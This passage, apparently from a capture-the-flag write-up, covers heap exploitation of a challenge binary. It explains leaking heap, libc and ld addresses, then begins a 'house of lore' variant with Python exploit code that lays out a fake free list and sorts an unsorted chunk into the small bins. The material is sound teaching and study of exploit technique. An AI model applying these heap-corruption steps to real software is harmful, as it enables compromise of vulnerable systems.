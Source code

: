 *NOTE: Even though the `libc` leak comes before the `heap` leak, because the `heap` leak contains a `null-byte`, it has to be leaked via `Add new garbage bag` (as you can pre-define the `write length` and thereby do not get cut off by `strlen()` reaching the `null-byte`)*

As such, the player now has the `base address` of the `heap`, `libc` and `ld`.



#### Summary

- `Heap` and `Libc` pointers are left on the `chunk` from the `unsorted chunk` upon a call to `malloc`, meaning by padding up until the `addresses`, those can be leaked



### Crafting exploits

Armed with `read and write out of bounds` primitives, `base addresses` of the `heap`, `ld` and `libc` and an `unsorted bin chunk` within reach,  the player is finally ready to craft an exploit.

I decided to go with the [`house of lore`](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_lore.c) approach, but I'm sure other techniques could be used to solve this challenge as well. A detailed writeup of the exploit can be found in the [how2heap](https://github.com/shellphish/how2heap/) repo from shellphish.



#### Opening pandora's box (juggling unsorted bin to become t-cache via a variant of the `house of lore`-technique)

Essentially, the goal is to craft a `fake free list` in controlled memory (the `heap`), resize the `unsorted bin chunk` to fit in to the `small bins` chunk, overwrite the `backwards pointer` in the `small bin chunk` to load the `fake free list` in to the `t-cache`.



First, three addresses will be noted: `fake_free`, `buf1` and `buf2`. These addresses should be in user controlled memory (in this case the `heap`):

```python
# Prepare victim chunk and resize the unsorted free chunk to fit in to a smallbin
info("Mallocing new chunk to prepare fake free list")
malloc(0x9f8, b'E'*0x9f8)                       # Victim chunk, offset is Heap_leak + 0x4f0

fake_free = heap_leak + 0x600                   # Size 0xd0 (26*8)
buf2 = heap_leak + (0x600 + 0xe0)               # Size 0x20 (4*8)
buf1 = heap_leak + (0x600 + 0xe0) + 0x20        # Size 0x20 (4*8)

info("Fake free location: %s" % hex(fake_free))

info("Buf2 location %s" % hex(buf2))
info("Buf1 location %s" % hex(buf1))

info("Mallocing 1200 bytes to sort unsorted bin...")
malloc(1200, b'F'*1200)                         # malloc() a large chunk to force libc to sort
                                                # the unsorted free chunk in to small bins
```
